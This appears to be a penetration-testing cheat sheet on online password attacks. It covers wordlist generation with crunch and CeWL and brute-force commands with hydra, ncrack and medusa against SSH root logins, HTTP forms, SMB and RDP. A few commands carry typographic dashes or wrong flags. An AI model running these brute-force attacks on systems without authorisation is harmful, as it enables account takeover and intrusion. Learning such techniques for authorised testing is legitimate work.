

# Online Attack

## Wordlist

### Crunch

Crunch is a tool that can generate custom wordlist with defined character-sets and password formats.

```text
crunch [min] [max] [characterset] -t [pattern] -o [output filename]
```

```text
min = minimum password length 
max = maximum password length 
characterset = The character set to be used in generating the passwords 
-t = patten, for example if you knew that your target's birthday was 0728 (July 28th) and you suspected they used their birthday in their password, you could generate a password list that ended with 0728 by giving crunch the pattern @@@@@@@0728.
```

The second option is when we will want to create a list based on different words.For example the words blue and red can be bluered or redblue.We can achieve this with the command:

```text
./crunch 1 1 -p pen test lab
```

This will generate wordlists which will be 1Mb each and with 6 characters size and it will include the characters 0123456789.

```text
./crunch 6 6 0123456789 -b 1mb -o START
```

Crunch allows us to specify the number of words in each wordlist.This will create a wordlists that it will contain 20 words maximum by taken a specific charset of lalpha which is \[abcdefghijklmnopqrstuvwxyz\].

```text
./crunch 3 3 -f charset.lst lalpha -o START -c 20
```

Create a wordlist that will contains the word pentestlab followed by 3 random characters.

```text
./crunch 13 13 -f charset.lst lalpha -t pentestlab@@@
```

### CeWL

CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a wordlist which can then be used for password crackers such as John the Ripper.

```text
cewl -d 2 -m 5 -w docswords.txt https://example.com
```

Options
```
-m, --min_word_length: Minimum word length, default 3.
-w, --write: Write the output to the file.
-d <x>,--depth <x>: Depth to spider to, default 2.
```

## Bruteforce

### Hydra

```text
hydra -l username -p passwordlist.txt [target (ip address and port)]
```

#### SSH bruteforce

Brute-force SSH root account using a wordlist/dictionary

```text
hydra -l root -P 500-worst-passwords.txt 192.168.1.10 ssh
```

-l = the username

-L = list of usernames \(if you don't know the login\)

-p = password \(never used\)

-P - the directory for the wordlists \(file\)

-M FILE list of servers to be attacked in parallel, one entry per line

Less common options: -vV = verbose mode, shows you every login attempt hydra tries

-s = specify the port on which we running our attack

-e ns = checks for blank or no password fields

#### HTTP Form Bruteforce

Brute-force HTTP Form POST using a username list to try different usernames

```text
hydra -L [username list] -P [password list] 192.168.1.10 [form parameters] [failed login message]
```

#### SMB Bruteforce

```text
hydra –L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```




{% embed data="{\"url\":\"http://www.hackingarticles.in/5-ways-to-hack-smb-login-password/\",\"type\":\"link\",\"title\":\"5 Ways to Hack SMB Login Password\",\"description\":\"In this article, we will learn how to gain control over our victim’s PC through SMB Port. There are various ways to do it and let take time and learn all those because different circumstances call for different measure. xHydra This is the graphical version to apply dictionary attack via SMB port to hack a... Continue reading →\",\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://4.bp.blogspot.com/-1l4jtN0-RVs/Wp7QKE\_WPPI/AAAAAAAAVB8/ID1QQcSz4IUkOIVPvQqWMKMBnjk6A7uVwCEwYBhgL/s1600/3.png\",\"width\":482,\"height\":546,\"aspectRatio\":1.1327800829875518}}" %}

### Ncrack

#### RDP bruteforce

```text
 ncrack -vv --user offsec -P passwordfile.txt rdp://192.168.11.35
```

#### SMB Bruteforce

```text
ncrack –u /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445
```

-U - denotes the path of username list

-P – denotes password file’s path

-p – is the port number

### Medusa

#### SMB Bruteforce

```text
medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt
```

